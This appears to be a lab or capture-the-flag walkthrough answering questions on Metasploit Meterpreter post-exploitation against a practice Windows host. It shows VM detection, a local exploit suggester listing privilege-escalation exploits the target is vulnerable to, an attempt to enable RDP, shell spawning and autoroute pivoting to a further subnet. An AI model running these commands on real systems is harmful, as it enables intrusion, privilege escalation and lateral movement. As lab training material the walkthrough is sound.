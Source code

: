 ### How about if we want to run a Metasploit module?
**Answer**: `run`
### A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?
**Answer**: `ipconfig`
### What command can we run in our meterpreter session to spawn a normal system shell?
**Answer**: `shell`
```
meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine ...
[+] This is a Xen Virtual Machine
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.89.122 - Collecting local exploits for x86/windows...
[*] 10.10.89.122 - 37 exploit checks are being tried...
[+] 10.10.89.122 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.89.122 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
meterpreter > run post/windows/manage/enable_rdp

[-] Insufficient privileges, Remote Desktop Service was not modified
meterpreter > 
```
##  Makin' Cisco Proud
### What command do we run to add a route to the following subnet: `172.18.1.0/24`?
```
meterpreter > run autoroute -h

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Usage:   run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module
meterpreter > run autoroute -s 172.18.1.0 -n 255.255.255.0

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.18.1.0/255.255.255.0...
[+] Added route to 172.18.1.0/255.255.255.0 via 10.10.89.122
[*] Use the -p option to list all active routes
```